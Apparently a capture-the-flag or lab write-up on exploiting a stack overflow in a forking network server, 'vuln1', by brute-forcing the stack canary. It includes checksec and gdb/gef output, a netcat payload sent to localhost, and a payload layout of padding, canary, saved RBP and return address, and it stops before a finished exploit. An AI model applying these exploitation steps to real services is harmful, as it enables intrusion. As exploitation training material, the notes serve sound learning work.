 # Server Fork with recv() - vuln1

fork without execve() child process = canary does not change </br>
recv() = no null terminator '\x00' which makes canary bruteforce possible
```
gef➤  checksec
[+] checksec for 'vuln1'
Canary                        : Yes →  value: 0x4635cf1eaee08a00
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
fork child process = canary does not change
recv() = no null terminator '\x00' which makes canary bruteforce possible

```
# nc 127.0.0.1 1337
Please enter the message you want to send to admin:
aaaaaaaaaaaaaaaaaaaaabbccc
Done.
```
'vuln1' uses libc.so.6 = libc leak, since the program returns after sending input
stripped = no symbol table, so no 'b main', use starti then set break point with ghidra reference
```
# file vuln1 
vuln1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter 
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cc3b330cabc203d0d813e3114f1515b044a1fd4f,
 stripped

# ldd vuln1 
	linux-vdso.so.1 (0x00007ffc2df84000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd437426000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd437603000)

```

starti, then check canary
Need to set detach-on-fork, and follow-fork-mode in order to debug child process


```
gef >

starti
set detach-on-fork off
set follow-fork-mode child
b *0x00005555555555e2
canary
c
```
[https://vagmour.eu/persistence-1/](https://vagmour.eu/persistence-1/)
[]()
[]()

Send Payload (python3):
```
payload = b'a' * 0x34 + b'cccc' 
netcat( '127.0.0.1', 1337 , payload , i  , []  )
```

After sending payload:  (  Canary = 0x4769534786267b00 ) </br>
RBP =  0x00007fffffffe0e0
```
$rax   : 0x39              
$rbx   : 0x0               
$rcx   : 0x00007ffff7ef444d  →  0x6b77fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe0b8  →  0x0000555555555562  →   mov eax, DWORD PTR [rbp-0x14]
$rbp   : 0x00007fffffffe0e0  →  0x00007fffffffe140  →  0x00005555555555f0  →   push r15
$rsi   : 0x00007fffffffe070  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$rdi   : 0x4               
$rip   : 0x00005555555555e2  →   ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x0000555555555180  →   xor ebp, ebp
$r13   : 0x00007fffffffe220  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 

gef➤  x/20gx $rsi
0x7fffffffe070:	0x6161616161616161	0x6161616161616161
0x7fffffffe080:	0x6161616161616161	0x6161616161616161
0x7fffffffe090:	0x6161616161616161	0x6161616161616161
0x7fffffffe0a0:	0x6363636361616161	0x4769534786267b00
0x7fffffffe0b0:	0x00007fffffffe0e0	0x0000555555555562
0x7fffffffe0c0:	0x0000000000000002	0x0000000400000000
0x7fffffffe0d0:	0x0000000000000000	0x4769534786267b00
0x7fffffffe0e0:	0x00007fffffffe140	0x00005555555554cf
0x7fffffffe0f0:	0x00007fffffffe228	0x00000001f7e9d745
0x7fffffffe100:	0x0000000000000000	0x0000053900000010

```
![$rsi][stack1.jpg]

so payload = 

```
payload = b'a' * 0x34 + b'cccc' + CANARY + RBP + RETURN
```